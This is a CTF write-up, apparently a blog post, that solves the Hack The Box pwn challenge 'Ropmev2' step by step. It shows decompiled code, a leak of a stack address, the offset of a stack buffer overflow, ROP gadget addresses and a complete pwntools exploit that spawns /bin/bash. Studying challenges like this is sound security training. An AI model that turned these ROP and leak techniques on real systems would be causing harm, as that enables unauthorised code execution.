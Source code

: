 ```yaml
---
layout: post
title: Hack The Box - [Challenge|Pwn] Ropmev2
date: 2020-05-27 00:00:00
categories: 
    - htb
tags:
    - htb
    - linux
    - binary exploitation
    - x64
    - stack buffer overflow
    - return oriented programming
---
```


![ropmev2]({{ site.baseurl }}/images/posts/2020/htb_1_1.png "ropmev2"){:width="600"}

### Sources

[https://github.com/fachrioktavian/ctf-writeup/tree/master/htb/challenge/pwn/ropmev2](https://github.com/fachrioktavian/ctf-writeup/tree/master/htb/challenge/pwn/ropmev2)

### Summary

This is a nice pwn challenge. You will learn about ROP (Return Oriented Programming) technique in binary exploitation.

#### Binary's protection

```terminal
$ checksec ropmev2
[*] '/media/sf_VMShared/htb/challenges/pwn/htb_ropmev2/ropmev2'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled means we can't just place shellcode in the stack then execute it. NX (No Execute) will prevent a memory region to have both writable and executable access at the same time.

#### Overview

After decompile the binary, here is snippet of main's pseudocode:

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char **v3; // rdx
  char *buf[26]; // [rsp+0h] [rbp-D0h] -> buffer has space of 26 bytes

  sub_401213();
  printf("Please dont hack me\n", buf);
  read(0, buf, 500uLL); // read 500 bytes -> OVERFLOW
  if ( !strcmp("DEBUG\n", buf) )
  {
    printf("I dont know what this is %p\n", buf);
    main("I dont know what this is %p\n", buf, v3);
  }
  sub_401238(buf);
  return 0LL;
}
```

```c
void __fastcall sub_401238(const char *a1)
{
  int i; // [rsp+1Ch] [rbp-14h]

  if ( a1 )
  {
    for ( i = 0; i < strlen(a1); ++i )
    {
      if ( a1[i] <= 0x60 || a1[i] > 0x6D )
      {
        if ( a1[i] <= 0x40 || a1[i] > 0x4D )
        {
          if ( a1[i] <= 0x6D || a1[i] > 0x7A )
          {
            if ( a1[i] > 0x4D && a1[i] <= 0x5A )
              a1[i] -= 13;
          }
          else
          {
            a1[i] -= 13;
          }
        }
        else
        {
          a1[i] += 13;
        }
      }
      else
      {
        a1[i] += 13;
      }
    }
  }
}
```

So if we send string `DEBUG`, it'll print address of buf. From here we get information leak of stack address, bypassing ASLR (Address Space Layout Randomozation). Then we exploit stack buffer overflow to gain RCE (Remote Code Execution) using ROP. Notice something at function `sub_401238()`? Yes this function will ruin out buffer, it'll add or sub the bytes if the bytes match the criteria. But it's easy to bypass, just place null `\x00` at front of buffer and this function will not work because `strlen()` funtion return length of a string just before null byte.

#### The bugs

First bug is information disclosure related to stack address. The second bug is overflow on the buffer `buf`.

#### Exploitation's scenario

1. Leak stack address `DEBUG` command.

2. Craft shellcode to call /bin/bash using available gadgets.

### Exploitation

#### Crash the binary

```python
# poc.py
from pwn import *

pad = "\x00a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"

r = gdb.debug("./ropmev2", "b *0x40120C\n")
r.send(pad)
r.interactive()
```

run the script and we can debug the binary and find pattern at `ret` instruction. Using `msf-patter_offset` we can find the exact offset to gain control of RIP.

![pattern]({{ site.baseurl }}/images/posts/2020/htb_1_2.png "pattern"){:style="width:450px;"}

```terminal
$ msf-pattern_offset -q 0x6841336841326841
[*] Exact match at offset 216
```

#### /bin/bash location.

Before we craft shellcode, we should know where the address of string `/bin/bash`. We can insert string `/bin/bash` into the stack and find the exact location of it using script below:

```python
# poc.py
from pwn import *

pload = b"\x00XXXXXXX" + b"/bin/bash\x00"
pload = b"A"*(216-len(pload)) + pload

r = gdb.debug("./ropmev2", "b *0x40120C\n", aslr=0)
r.sendline("DEBUG")
print(r.recvline())
r.sendline(pload)
r.interactive()
```

```terminal
python3 poc.py
[!] Debugging process with ASLR disabled
[+] Starting local process '/usr/bin/gdbserver': pid 2501
[*] running in new terminal: /usr/bin/gdb -q  "./ropmev2" -x "/tmp/pwnws5e_l3m.gdb"
b'Please dont hack me\n'
[*] Switching to interactive mode
I dont know what this is 0x7fffffffded0
Please dont hack me
```

![bash]({{ site.baseurl }}/images/posts/2020/htb_1_3.png "bash"){:style="width:450px;"}

```terminal
$ python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffded0 - 0x7fffffffdebe
18
```

#### Helpers

Gadget can be found using tools like `ropper` or `ROPgadget`

```python
pop_rdi_ret = 0x000000000040142b # pop rdi ; ret
syscall = 0x0000000000401168 # syscall
pop_rax = 0x0000000000401162 # pop rax ; ret
pop_rsi_r15 = 0x0000000000401429 # pop rsi ; pop r15 ; ret
pop_rdx_r13 = 0x0000000000401164 # pop rdx ; pop r13 ; ret
```

#### Stage 1. Leaking stack address

```python
stage1 = b"DEBUG"
r.recv()
r.sendline(pload)
r.recvuntil("this is ")
stack_leak = r.recvline()[:-1:]
stack_leak = int(stack_leak,16)
```

#### Stage 2. Building ROP chain to trigger RCE

```python
pad = b"\x00XXXXXXX" + b"/bin/bash\x00"
pad = b"A"*(216-len(pad)) + pad
bin_bash = stack_leak - 0x12

stage2 = pad
stage2 += p64(pop_rdi_ret)
stage2 += p64(bin_bash)         # insert /bin/bash to rdi (argv[1])
stage2 += p64(pop_rsi_r15)
stage2 += p64(0)                # insert null to rsi (argv[2])
stage2 += p64(0)
stage2 += p64(pop_rdx_r13)
stage2 += p64(0)
stage2 += p64(0)                # insert null to rdx (argv[3])
stage2 += p64(pop_rax)
stage2 += p64(0x3b)             # insert 0x3b (syscall number for execve) to rax
stage2 += p64(syscall)          # trigger execve("/bin/bash", null, null)

r.send(stage2)
```

#### Pwned

```terminal
$ python3 solve.py
[+] Starting local process './ropmev2': pid 2858
[*] Stage 1 > Leaking stack address
[+]         > Stack leak: 0x7ffde9aff1f0, Address of '/bin/bash': 0x7ffde9aff1de
[*] Stage 2 > Building ROP to execute /bin/bash
[+] Pwned!
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner),142(vboxsf)
```
